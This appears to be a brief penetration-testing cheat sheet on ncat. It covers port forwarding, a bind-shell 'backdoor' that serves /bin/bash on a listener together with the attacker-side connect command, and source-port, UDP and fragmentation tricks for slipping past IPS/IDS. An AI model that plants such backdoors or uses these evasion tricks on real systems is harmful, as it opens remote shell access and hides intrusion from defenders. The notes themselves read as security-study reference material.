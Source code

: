 ## Port forward/tunneling/mapping
[[Port-Redirection-And-Tunneling]], but with ncat
Defined as: Fowarding packet sent to one destination port to another destination port.
Either `-c` or `--sh-exec`
Target server should be replaced with local host
the `PORT` is the destination, `LISTENER` is the tunnel port firewall whitelisted 
```bash
ncat -lvnp $LISTENER -c "ncat TARGET_SERVER $PORT"
```

## Using Backdooring with non-standard ports
Create a backdoor via specified port 
Server Backdoor:
```bash
ncat -lvnp $LISTENER -e /bin/bash
```
On attackbox:
```bash
ncat $IP $PORT
```

## Manipulate Source TCP/UDP port
```lua
(-sS | -sT | -sU) -g $PORT
```
 ncat bypass IPS/IDS with just the right connection port or protocol
```bash
ncat -u $IP $PORT
ncat -ulvnp $PORT
```
Session splicing
```bash
-f 
-ff
-mtu
```
